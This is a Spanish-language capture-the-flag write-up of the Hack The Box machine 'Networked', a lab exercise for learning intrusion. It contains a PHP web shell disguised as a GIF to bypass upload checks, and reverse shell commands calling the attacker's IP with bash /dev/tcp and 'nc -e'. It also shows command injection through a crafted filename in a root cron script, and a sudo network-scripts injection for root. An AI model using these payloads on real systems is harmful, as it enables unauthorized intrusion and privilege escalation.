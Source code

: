 10.10.10.146 - Networked
------------------------

# Part 1: Enumeración

Tenemos los puertos 22(ssh) y 80(http)

```console
└─$ whatweb http://10.10.10.146
http://10.10.10.146 [200 OK] Apache[2.4.6], HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.4.16],
```

El servidor nos dice que 

```
Hello mate, we're building the new FaceMash!
Help by funding us and be the new Tyler&Cameron!
Join us at the pool party this Sat to get a glimpse 
<!-- upload and gallery not yet linked -->
```
> Tyler&Cameron: modelo participante en el "Hombres Mujeres & Vicebersa" americano 
> FaceMash: red social ilegal para puntuar cual era la estudiante mas sexy de Harvard


```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.146/FUZZ/
000000021:   403        8 L      22 W       210 Ch      "cgi-bin"                                            
000000150:   200        1 L      1 W        2 Ch        "uploads"                                            
000000069:   200        1006 L   4983 W     74409 Ch    "icons"                                              
000001612:   200        15 L     55 W       885 Ch      "backup"
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.146/FUZZ.php
000000001:   200        8 L      40 W       229 Ch      "index"
000000165:   200        22 L     88 W       1302 Ch     "photos"
000000352:   200        5 L      13 W       169 Ch      "upload"
000000707:   200        0 L      0 W        0 Ch        "lib"
```
------------------------------

# Part 2: Web shell via File upload

/backup
Tenemos el archivo backup.tar donde sale el codigo de todos esos phps que hemos encontrado.
Conclusiones
- Los archivos se suben a /uploads (/var/www/html/uploads/)
- Metodo /POST parametros: myFile (archivo), submit.
- Pone los permisos 644: (read write (propietario)   read(grupo)   read(otros))
- El archivo a subir tiene que cumplir los requisitos de no ser muy grande y tener una extension de imagen.
- Encima le cambia el nombre

Por tanto para burlar esto se le pone doble extension (para que verifique solo la segunda) y cabecera de GIF8 por
los magic numbers:
> **magic numbers**: primeros bits que determinan que clase de archivo tenemos
```php
GIF8;
<?php echo "<pre>" . cmd_exec($_REQUEST['cmd']) . "</pre>";?>
```
```console
└─$ mv cmd.php cmd.php.jpg
└─$ curl -s -X POST http://10.10.10.146/upload.php -d 'myFile=@cmd.php.jpg&submit=go!'
```

Si nos vamos a /images.php y vemos de donde viene una imagen viene de ```/uploads/127_0_0_4.png```
es decir quita el nombre y lo cambia por una IP.

Si subimos una foto normal al servidor (la misma de centos) la ruta es ```/uploads/10_10_14_15.png```
Subimos la nuestra (cmd.php.jpg) por la web en vez de por curl y ya funciona (se ve en la galeria)
Copiando su ruta y haciendo una peticion tenemos que:

```console
└─$ curl -s http://10.10.10.146/uploads/10_10_14_15.php.jpg?cmd=whoami                       
GIF8;
<pre>apache
</pre> 
└─$ curl -s "http://10.10.10.146/uploads/10_10_14_15.php.jpg?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.15/443 0>%261'"
nada
└─$ curl -s "http://10.10.10.146/uploads/10_10_14_15.php.jpg?cmd=nc -e /bin/sh 10.10.14.15 443"
tampoco
```
Probe ambas en via web y la segunda me dio la shell.

----------------------------

# Part 3: Accediendo al usaurio basico

Tras un tratamiento de la tty subi mi script de enumeracion a /tmp:
```console
bash-4.2$ curl -O http://10.10.14.15:8000/lin_info_xii.sh
bash-4.2$ chmod +x ./lin_info_xii.sh
```

- Somos apache, los otros usaurios son root y guly
- SUIDs -> pam_timestamp_check, unix_chkpwd, usernetctl, chage, pkexec, crontab, sudo
- /var/mail/guly -> tendra algo?
- Estan corriendo estos procesos: /usr/bin/python2 -Es /usr/sbin/tuned -l -P, /usr/sbin/rsyslogd -n

Ninguno de los SUIDs nos sirven pero;
```console
bash-4.2$ ls -l /home
total 4
drwxr-xr-x. 2 guly guly 4096 Sep  6 15:57 guly
```
En la carpeta del guly este tenemos que:
```console
bash-4.2$ ls -l
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 Oct 25 11:01 user.txt
bash-4.2$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```
Cada tres minutos se ejecuta eso por root, el problema esque no tenemos permiso se escritura, pero si de lectura.
```console
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly'; $msg= ''; $headers = "X-Mailer: check_attack.php\r\n";

$files = array(); $files = preg_grep('/^([^.])/', scandir($path)); // Por cada archivo de la ruta /uploads 

foreach ($files as $key => $value) { $msg='';
  if ($value == 'index.html') { //
	continue;
  }
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {   // Si detecta que es malicioso (o sea no hay una ip bien puesta)
    echo "attack!\n";
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);
    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &"); // ejecuta este comando
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value"); }}
?>
```
Como ejecuta el comando bin/rm -f $path$value y tenemos control de $value (o sea el nombre del archivo),
podemos ponerle un nombre malicioso como: ```test;whoami | nc 10.10.14.15 666``` haciendo que se concatenen
dos comandos

```console
└─$ sudo nc -nlvp 666
Ncat: Connection from 10.10.10.146:36746.
guly
```
La shell se cierra ```nc -e bash 10.10.14.15 666``` pero si se encodea eso en base64 
```; echo bmMgLWMgYmFzaCAxMC4xMC4xNC4xNSA2NjYK | base64 -d | bash```

----------------------------------

# Part 4: Obteniendo root

Ya estamriamos bajo el usaurio guly

-   (root) NOPASSWD: /usr/local/sbin/changename.sh

```console
[guly@networked tmp]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
tesy
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```
Si buscas en google ```network-scripts exploit``` sale [esto](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f).

```
[guly@networked tmp]$ sudo /usr/local/sbin/changename.sh
interface NAME:
asasda whoami
root 
root
[/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
asdads bash
interface PROXY_METHOD:
sad
...
[root@networked network-scripts]# whoami
root
```

---------------------------------------

# Extra: Analizando el codigo

```php
$path = '/var/www/html/uploads/';   // A partir de esta ruta
$ignored = array('.', '..', 'index.html'); $files = array(); 
foreach (scandir($path) as $file) {
  if (in_array($file, $ignored)) continue;  //toma cada archivo salvo '.' '..' e 'index'
  $files[$file] = filemtime($path. '/' . $file); }
```

Repliqué el codigo y me salió:
```php
<?php
$path = '/home/cucuxii/Maquinas/htb/Networked';
$ignored = array('.', '..'); $files = array();
foreach (scandir($path) as $file) {  
    if (in_array($file, $ignored)) continue;
    $files[$file] = filemtime($path. '/' . $file);}
print_r($files);
?>
```
```console
└─$ php prueba.php 
Array
(
    [.Networked.md.swp] => 1666691784
    [.prueba.php.swp] => 1666692384
    [Networked.md] => 1666691390
    [backup] => 1666690965
    [prueba.php] => 1666692384
)
```
O sea que hace un diccionario por cada archivo y su calve valor es nombre:fecha.

